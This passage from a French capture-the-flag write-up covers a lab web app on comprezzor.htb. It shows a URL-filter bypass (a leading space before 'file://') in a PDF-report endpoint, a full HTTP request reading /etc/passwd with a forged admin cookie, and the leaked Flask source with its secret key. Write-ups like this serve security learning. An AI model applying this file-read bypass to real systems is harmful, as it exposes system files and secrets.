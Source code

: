 Ce payload fonctionne mais seulement avec un espace avant, sinon le site retourne un "Invalid URL". Je ne sais pas si c'était le bypass prévu mais j'ai décidé de partir sur cette voie.

Après vérification, un CVE résumant ce bypass de filtre existe déjà : https://nvd.nist.gov/vuln/detail/CVE-2023-24329

La requête HTTP POST renvoie directement le PDF dans la réponse pour que l'utilisateur puisse le télécharger, on peut donc faire un Intruder sur les principaux fichiers Linux et extraire les réponses longues.

Requête : 

    POST /create_pdf_report HTTP/1.1
    Host: dashboard.comprezzor.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 42
    Cookie: user_data=eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5

    report_url=%20file%3A%2F%2F%2Fetc%2Fpasswd

Aucun compte pertinent dans /etc/passwd, mais on trouve quelques autres fichiers intéressants, dont notamment "/proc/self/cmdline" (/proc/self/ est un lien symbolique vers le processus courant) qui nous renvoie la chaîne suivante : 

> python3/app/code/app.py

Le payload " file:///app/code/app.py" permet de lire le code source dans ce fichier. C'est une simple petite application Flask classique et le code nous indique le nom de quelques autres fichiers grâce aux imports : 

    from flask import Flask, request, redirect
    from blueprints.index.index import main_bp
    from blueprints.report.report import report_bp
    from blueprints.auth.auth import auth_bp
    from blueprints.dashboard.dashboard import dashboard_bp

    app = Flask(__name__)
    app.secret_key = "7ASS7ADA8RF3FD7"
    app.config['SERVER_NAME'] = 'comprezzor.htb'
    app.config['MAX_CONTENT_LENGTH'] = 5 * 1024 * 1024 # Limit file size to 5MB

    ALLOWED_EXTENSIONS = {'txt', 'pdf', 'docx'} # Add more allowed file extensions if needed

    app.register_blueprint(main_bp)
    app.register_blueprint(report_bp, subdomain='report')
    app.register_blueprint(auth_bp, subdomain='auth')
    app.register_blueprint(dashboard_bp, subdomain='dashboard')

    if __name__ == '__main__':
        app.run(debug=False, host="0.0.0.0", port=80)


Payloads correspondant aux imports : 
